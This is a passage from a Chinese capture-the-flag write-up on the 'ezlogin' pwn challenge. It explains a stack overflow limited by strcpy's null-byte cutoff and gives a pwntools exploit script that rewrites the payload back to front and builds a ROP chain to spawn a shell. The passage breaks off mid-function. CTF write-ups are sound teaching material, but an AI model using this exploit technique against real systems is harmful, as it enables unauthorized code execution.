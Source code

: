 ```c
	sleep(0.3)
shell()
```
## ezlogin
[pwn4.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/29466846/1684201772614-e8b66dfc-6589-42d5-8676-a232ff476e19.pdf?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2023%2Fpdf%2F29466846%2F1684201772614-e8b66dfc-6589-42d5-8676-a232ff476e19.pdf%22%2C%22name%22%3A%22pwn4.pdf%22%2C%22size%22%3A329517%2C%22ext%22%3A%22pdf%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u6c8a610c-df99-4b37-8caf-a2a3bcf982c%22%2C%22taskType%22%3A%22upload%22%2C%22type%22%3A%22application%2Fpdf%22%2C%22__spacing%22%3A%22both%22%2C%22mode%22%3A%22title%22%2C%22id%22%3A%22ufef37b2a%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)
> zip文件

[https://blog.csdn.net/zzq487782568/article/details/127778545](https://blog.csdn.net/zzq487782568/article/details/127778545)
> 解决，\x00的问题
> 从后往前覆盖去修正
> 注意：提前字节，用切片

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684236171644-b58d3622-b6d5-4701-9f37-5b447d3be753.png#averageHue=%23080603&clientId=ub07849b2-3189-4&from=paste&height=196&id=u6734b106&originHeight=324&originWidth=1020&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=39649&status=done&style=none&taskId=uce2b6497-7b0b-43aa-b682-b02d23a2230&title=&width=618.1817824518735)<br />参考学习：[https://blog.csdn.net/zzq487782568/article/details/127778545](https://blog.csdn.net/zzq487782568/article/details/127778545)<br />有个栈溢出，然而这道题的坑点是strcpy遇到\x00就截止了，因此我不得不自己写了个发送函数使得从长往短覆盖。
> 因为一开始我使用ropchain构造rop链，所以后续的思路也使用rop先写入/bin/sh，后调用系统调用getshell

```python
from pwn import *
context(log_level = 'debug',arch = 'amd64')
io=process("./pwn4")
#io=remote("node5.anna.nssctf.cn",28596)

elf=ELF("./pwn4")
libc=elf.libc

rdi=0x400706
rdx=0x448c95
rsi=0x410043
syscall=0x4012bc
ret=0x400416
rax=0x4005af

def debug(x):
	if(x == 1):
		gdb.attach(io)
		pause()
	else:
		pause()

def sendbuf(payload): #覆盖写
	backup=b""
	for i in range(len(payload), -1, -1):  
		if(payload[i:i+1]==b'\x00'): #当前是\x00，直接发送
			fake = b'a' * 0x108 +b'a'*(i)+ payload[i:i+1]
			sleep(0.2)
			io.send(fake)
		elif((payload[i:i+1]!=b'\x00' and payload[i-1:i]==b'\x00') or i==0): #当前不是0，而前面是0
			fake = b'a' * 0x108 +b'a'*(i)+payload[i:i+1]+backup #补满前面
			sleep(0.2)
			io.send(fake)
			backup=b""
		else: #收录后一次性发出
			temp=backup 
			backup=payload[i:i+1]+temp 

def jumpout(): #跳出
```